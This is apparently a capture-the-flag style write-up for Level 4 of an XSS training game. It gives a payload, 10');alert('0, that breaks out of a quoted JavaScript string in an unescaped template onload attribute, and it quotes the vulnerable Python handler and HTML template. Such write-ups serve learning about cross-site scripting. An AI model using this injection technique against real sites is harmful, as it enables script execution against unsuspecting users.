 ## Level 4

Payload:

```
10');alert('0
```

Backend code does not validate the input before embedding it in the template for the HTML (`level.py` line 16-17):

```python
timer = self.request.get('timer', 0)
self.render_template('timer.html', { 'timer' : timer })
```
    
This is where we want to inject (`timer.html` line 21):

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

so that `{{ timer }}` will be converted to our unsanitized input resulting in:

```
<img src="/static/loading.gif" onload="startTimer('10');alert('0');" />
```

Open question: Why is the `{{ timer }}` used in `timer.html` line 23 not injectable?